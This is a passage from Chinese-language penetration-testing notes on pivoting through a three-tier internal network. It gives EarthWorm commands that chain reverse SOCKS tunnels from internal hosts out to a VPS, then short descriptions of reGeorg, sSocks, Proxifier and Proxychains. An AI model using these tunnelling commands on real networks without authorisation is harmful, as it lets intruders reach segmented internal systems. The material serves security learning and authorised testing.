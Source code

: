 5. 三级网络环境

   比较少见，但不是没有。

   拓扑如图：

   ![image-20220421162815485](./image-20220421162815485.png)

   VPS上执行：

   ```bash
   ew -s rcsocks -l 1080 -e 8888
   ```

   A主机上：

   ```bash
   ew -s lcx_slave -d VPSIP -e 8888 -f 10.48.128.12 -g 9999
   ```

   B主机上：

   ```bash
   ew -s lcx_listen -l  9999 -e 7777
   ```

   C主机上：

   ```bash
   ew -s rssocks -d 10.48.128.12 -e 7777
   ```

   多级级联类似处理就好。

##### reGeorg

前面介绍过，实际把HTTP/HTTPS隧道转发到本机可以实现SOCKS代理内网穿透。

##### sSocks

用于开启Socks代理服务，支持IPv6和UDP，并提供反向Socks代理服务。

##### SocksCap64

Windows中一款好用的全局代理软件。

##### Proxifier

全平台代理和转发。

##### Proxychains

可以使得任何程序通过代理上网，支持HTTP、Socks4(需要安装ProxyChains4)、Sock5的代理类型。

具体配置需要修改`/etc/proxychains.conf`文件。

#### 数据压缩

> 这一小节不会是作者为了凑字数的吧。。。

##### WinRAR
